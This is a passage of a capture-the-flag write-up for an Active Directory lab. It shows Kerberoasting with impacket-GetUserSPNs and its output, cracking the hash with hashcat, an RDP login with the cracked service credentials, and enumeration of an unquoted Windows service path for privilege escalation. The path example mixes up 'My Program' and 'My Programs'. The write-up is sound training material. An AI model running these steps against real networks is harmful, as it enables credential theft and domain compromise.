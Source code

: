 ```
┌──(kali㉿kali)-[/tmp]
└─$ impacket-GetUserSPNs lab.enterprise.thm/nik:'<nik's password>' -dc-ip 10.10.62.141 -request -outputfile kerberoast.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

ServicePrincipalName  Name       MemberOf                                                     PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------  -----------------------------------------------------------  --------------------------  --------------------------  ----------
HTTP/LAB-DC           bitbucket  CN=sensitive-account,CN=Builtin,DC=LAB,DC=ENTERPRISE,DC=THM  2021-03-12 01:20:01.333272  2021-04-26 15:16:41.570158             



[-] CCache file is not found. Skipping...
```

We get a hash for ```bitbucket```. Now to crack it...

```
hashcat -a 0 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

Eventually, it cracks.


## Privilege Escalation
With the new credentials for the ```bitbucket``` service account, I connected to the domain controller through RDP.

```
xfreerdp /v:10.10.62.141 /u:bitbucket /p:<bitbucket's password> /cert-ignore
```

After some enumeration, I found an unquoted service path.

```
C:\Users\bitbucket>wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
Name                                      PathName                                                                      
AtlassianBitbucket                        C:\Atlassian\Bitbucket\7.11.1\bin\bserv64.exe //RS//AtlassianBitbucket        
AtlassianBitbucketElasticsearch           C:\Atlassian\Bitbucket\7.11.1\elasticsearch\bin\elasticsearch-service-x64.exe //RS//AtlassianBitbucketElasticsearch
LSM                                                                                                                     
NetSetupSvc                                                                                                             
zerotieroneservice                        C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe               
```

Unquoted service paths are a vulnerability that arises due to the way Windows runs its binaries. Say we have a program ```C:\Users\Public\My Programs\New Program.exe```, Windows will first try to execute ```C:\Users\Public\My.exe``` followed by ```C:\Users\Public\My Program.exe```, ```C:\Users\Public\My Program\New.exe```, and finally ```C:\Users\Public\My Programs\New Program.exe``` because of the spaces in and the path and lack of enclosing quotes. ```zerotieroneservice``` is vulnerable to this type of exploit.
